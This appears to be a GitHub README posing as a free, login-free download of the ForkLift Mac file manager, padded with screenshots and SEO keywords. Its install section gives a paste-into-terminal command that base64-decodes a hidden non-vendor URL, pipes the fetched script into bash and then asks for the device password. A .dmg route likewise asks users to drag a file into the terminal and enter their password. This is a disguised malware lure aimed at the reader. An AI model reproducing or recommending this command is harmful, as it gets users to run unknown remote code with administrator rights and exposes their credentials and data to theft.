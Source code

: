 # ForkLift for Mac
🔘 [![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://mitrobandus.github.io/.github/ForkLift)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


🎯 What You Unlock  

  🔓 Advanced dual-pane file management  

  📂 Seamless FTP, SFTP, and cloud integration  

  ⚡ Fast and intuitive UI  

  🛠 Batch rename, sync, and folder merging  

  🛡 No online validation or login required

🖼 Preview  

![ForkLift main screen](https://binarynights.com/images/main.png)  


![ForkLift main window](https://binarynights.com/images/manual/forklift-4-main_window.png)  


![ForkLift GUI](https://binarynights.com/images/manual/forklift-4-gui.png)  


🔍 SEO Keywords  

forklift mac, forklift mac os, forklift os x, forklift app mac, forklift ftp, forklift ftp client, mac os forklift, forklift mac download, forklift download, forklift mac free download, forklift free download, forklift file manager, forklift macbook, mac file manager forklift, forklift cloud sync, forklift dual pane, forklift mac setup, forklift mac installer, forklift offline, forklift file transfer, forklift batch rename, forklift productivity, forklift mac software, forklift macOS, forklift mac GUI, forklift fast file manager
